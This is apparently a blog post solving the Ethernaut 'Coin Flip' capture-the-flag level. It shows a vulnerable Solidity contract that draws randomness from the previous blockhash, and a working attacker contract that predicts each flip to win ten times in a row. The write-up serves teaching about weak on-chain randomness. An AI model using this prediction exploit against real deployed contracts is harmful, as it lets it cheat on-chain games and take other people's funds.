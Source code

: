 ```yaml
---
title: Ethernaut - Coin Flip - Solution
date: '2024-05-05'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Coin Flip CTF
---
```


# Ethernaut - Coin Flip - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## Exploit

The goal of this challenge is to predict the coin flip 10 times in a row.
Looking at the contract, we can see that it uses the previous block's hash as a source of "randomness".
This pattern is what is commonly referred to as "weak random number generation (Weak RNG)" since attackers can simply use the same "random" number generation logic to predict the outcome.

Take, for example, the following attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipAttacker {
    // FACTOR = type(uint256).max / 2 + 1
    uint256 public constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address public immutable VICTIM;

    constructor(address victim) {
        VICTIM = victim;
    }

    function attack() external {
        // Use the same source of "randomness" as the victim contract
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;

        // Flip the coin and provide the correct guess
        (bool success, ) = VICTIM.call(abi.encodeWithSignature("flip(bool)", guess));
        require(success, "Coin flip failed");
    }
}
```

Deploying this contract using [Remix](https://remix.ethereum.org) and providing our victim contract's address in the constructor, we can simply call `attack()` 10 times in a row to win the level.
Note that these 10 calls need to be distributed over 10 different blocks.
